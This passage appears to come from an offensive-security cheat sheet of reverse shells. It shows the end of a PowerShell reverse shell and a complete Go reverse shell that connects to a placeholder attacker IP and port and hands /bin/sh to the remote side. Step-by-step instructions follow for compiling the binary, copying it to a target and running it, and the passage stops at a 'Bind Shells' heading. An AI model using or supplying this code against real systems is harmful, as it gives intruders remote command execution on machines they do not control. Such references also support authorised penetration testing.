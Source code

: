 ```powershell
    $writer.Write((New-Object System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead));
    $error.BaseStream.BeginRead($buffer, 0, $buffer.Length, $ar, $null);
}, $null);

while ($socket.Connected) {
    $line = $reader.ReadLine();
    $input.WriteLine($line);
}

$socket.Close();
```

#### Golang

##### Simple Go Reverse Shell (compile on attacker, transfer to target)

**1. Create `shell.go` on your attacker machine:**
```go
package main

import (
	"net"
	"os/exec"
)

func main() {
	conn, _ := net.Dial("tcp", "<ATTACKER_IP>:<PORT>")
	cmd := exec.Command("/bin/sh") // For Windows, use "cmd.exe"
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn
	cmd.Run()
}
```

**2. Compile for the target architecture (e.g., Linux x64):**
```bash
GOOS=linux GOARCH=amd64 go build -o shell shell.go
```
* `GOOS`: Target Operating System (e.g., `linux`, `windows`, `darwin`)
* `GOARCH`: Target Architecture (e.g., `amd64`, `386`, `arm`)

**3. Transfer `shell` binary to target and execute:**
```bash
./shell
```
(For Windows, it would be `shell.exe`)

---

## Bind Shells
